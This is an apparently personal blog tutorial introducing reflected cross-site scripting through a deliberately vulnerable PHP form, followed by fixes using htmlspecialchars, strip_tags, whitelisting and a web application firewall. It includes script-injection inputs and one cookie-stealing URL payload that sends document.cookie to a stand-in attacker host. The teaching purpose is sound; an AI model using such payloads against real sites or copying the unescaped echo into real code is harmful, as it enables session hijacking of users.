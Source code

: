 ```yaml
---
title: "An Introduction to Cross-Site Scripting"
date: 2019-08-13
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Web Security
  - Reflected XSS
  - PHP
---
```


# Introduction
So you've learned to create a PHP form recently and are very excited to set up a website with this form. You might think, "Ah, it's just a simple form, what could go wrong?". Well, you wouldn't be the first one to believe that. 

So let's take a look at a form that I have written.

```php
<!DOCTYPE html>
<html>
<body>
  <h1>Simple PHP Form</h1>
  <form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
    Name: <input type="text" name="fname">
    <input type="submit">
  </form>
  <?php
    if ($_SERVER["REQUEST_METHOD"] == "GET") {
      echo "<p>Hi " . $_GET['fname'] . "!</p>";
    }
  ?>
</body>
</html>
```

Below we can see the form in the browser.

![Simple Form](../../assets/images/xss/1.png)

After typing in my name, we get the following output.

![Input in Form](../../assets/images/xss/2.png)

Now you might be thinking "isn't this how the form should work". But what if someone submits the following text as input.

```html
<b>Abhishek</b>
```

We get the following output.

![Form Output](../../assets/images/xss/3.png)

Wait, what? So if you pass in an HTML tag, the output is modified based on the tag. This is because when the PHP code echos the content of 'fname,' the resulting HTML sent back from the server looks like this. 

```html
<p>Hi <b>Abhishek</b>!</p>
```

This can be verified by looking at the source.

![Page-Source-Inject-1](../../assets/images/xss/5.png)

When the browser looks at the HTML, it sees the `<b>` tag and thinks that text in between is supposed to be rendered bold. This ability to pass in HTML code is known as HTML injection. This has a lot of implications (well other than being able to stylize your output). What if we were to pass javascript code in the text field. Let's try the following input.

```javascript
<script>alert("test");</script>
```
We get the following output.

![JS in Form](../../assets/images/xss/4.png)

So why did this happen? Well, this is because like in the previous example, we were able to inject code into the page returned by the server. This can be seen by looking at the source. 

![Form-Source-JS](../../assets/images/xss/xss-1.png)

When the browser sees the `<script>` tag, it immediately runs the codes in between. What we saw above is called Cross-Site Scripting (XSS), more specifically Reflected XSS. It is reflected since the script passed in as input is bounced from the web server back to the user's browser. 

So what can we do with this? An alert box might not be harmful to the user, but what about the case where the user is logged in. If we pass the following as input

```javascript
<script>alert(document.cookie)</script>
```

we get the following output.

![cookie](../../assets/images/xss/6.png)

Since the cookie is retrievable, the attacker can, once he gets the cookie, log in as the user and wreak havoc. One way the attacker can retrieve the cookies is by setting up a web server and sending the URL with the malicious code to a target. When the user clicks on the link, his/her browser will then send the cookies to the attacker's server. An example of such an URL is as.

```
http://vulnerable-website?param=<script>window.location="http://attackers-site.com/?cookie=" + document.cookie</script>
```

The cookie is sent as a GET value which the attacker can then view on his/her server. 

# Well, how can we prevent XSS? 
Some of the ways we can prevent XSS are:

* Escaping all dynamic content, i.e., replace any characters that the browser will interpret with something called entities. For example, `<` is replaced with `&lt;`. This means that when the page is returned back to the user, the browser sees `&lt;`,  and renders it instead of interpreting it. Dynamic content is encoded by default by most modern frameworks. The following two functions can also be used.

```
htmlspecialchars(): encodes special characters to HTML entities,
strip_tags(): removes the tags altogether and returns the inner text.
```

Let's use the two functions and see what happens. Modifying the php code dynamic content is present, i.e., 

```php
<!DOCTYPE html>
<html>
<body>
  <h1>Simple PHP Form</h1>
  <form method="GET" action='<?php echo htmlspecialchars($_SERVER["PHP_SELF"], ENT_QUOTES, "utf-8"); ?>'>
    Name: <input type="text" name="fname">
    <input type="submit">
  </form>
  <?php
    if ($_SERVER["REQUEST_METHOD"] == "GET") {
      $first_name = $_GET['fname'];
      $first_name = htmlspecialchars($first_name);
      $first_name = strip_tags($first_name);
      echo "<p>Hi " . $first_name . "!</p>";
    }
  ?>
</body>
</html>
```

Now when we try to input javascript code, we get the following ouput. 

![encoded](../../assets/images/xss/specialchars-1.png)

By looking at the source, we can see that the tags are converted to entities and are rendered instead of interpreted by the browser.

![source-encoded](../../assets/images/xss/sourcechars.png)


* Another step that can be added is to use a whitelist. If a field can accept only a finite number of different inputs, we can check if the user-supplied data is in the whitelist. If the user passes in invalid data, we can simply reject it.

* A more comprehensive solution is to use a Web Application Firewall (WAF). The WAF sits between the server and the client and filters out any message that contains malicious code. An open-source implementation of a WAF is provided by ModSecurity can be utilized (with care!).

Note that this post serves to only give a basic idea on XSS and serve as a base. With attackers coming up with new XSS attack vectors regularly, we must keep ourselves updated to stay safe. In a later post, I will talk about Stored XSS. 